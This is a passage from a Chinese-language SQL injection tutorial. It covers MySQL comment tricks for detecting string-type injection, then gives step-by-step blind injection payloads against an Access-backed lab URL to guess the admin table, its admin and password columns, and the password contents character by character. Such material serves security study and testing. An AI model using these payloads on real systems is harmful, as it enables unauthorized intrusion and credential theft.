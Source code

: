Mysql 有三种常用注释符：

​	-- 注意，这种注释符后边有一个空格

​	# 通过#进行注释

​	/* */ 注释掉符号内的内容

因此，构造语句为：select * from table where name =’admin’ and 1=1-- ’ 可成功执行返回结果正确；

（3） 加admin' and 1=2-- ，此时sql语句为：select * from table where name=’admin’ and 1=2 -- ’则会报错

如果满足以上三点，可以判断该url为字符型注入。



## 手工注入access数据库

**方法：**

> **一、判断网站是否有注入漏洞**
>
> 1.选择一个链接【`http://192.168.1.3:8008/onews.asp?id=45`】,Get传参
>
> 2.测试链接，在链接末尾添加【’】，返回页面错误。
>
> 3.在链接末尾添加【 and 1=1】，返回页面正确。
>
> 4.在链接末尾添加【and 1=2】，返回页面错误，此时表明该网站存在注入漏洞。
>
> **二、猜解表名和列名**
>
> 1.在链接末尾添加语句【and exists(select * from admin)】，页面正常显示，说明存在表名【admin】。
>
> 2.在连接末尾添加语句【and exists(select admin from admin)】，页面正常显示，即在表中存在admin列。
>
> 3.在链接末尾添加语句【and exists(select password from admin)】，页面正常显示，即存在password列。
>
> **三、猜测字段内容**
>
> 1.猜测字段的长度，在链接末尾添加语句【and (select **top 1** len (admin) from admin)>**5**】，页面显示错误，说明**字段长度为5**。这个语句表示在表admin里面猜解**第一行**的admin列的长度。
>
> 2.猜测字段的内容，在链接末尾添加语句【and (select top 1 asc(mid(admin,1,1)) from admin)>97】，页面显示错误，可猜解出第一条记录的第一位字符的ASCII码为97，对应a。
>
> ```sql
> SQL MID() 函数：MID(column_name,start[,length])
> 参数	        描述
> column_name	 必需。要提取字符的字段。
> start	     必需。规定开始位置（起始值是 1）。
> length	     可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。
> ```
>
> 3.逐渐猜解，在链接末尾添加语句【and (select top 1 asc(mid(admin,2,1)) from admin)>97】，猜解第二个字符的内容。密码猜测同理。
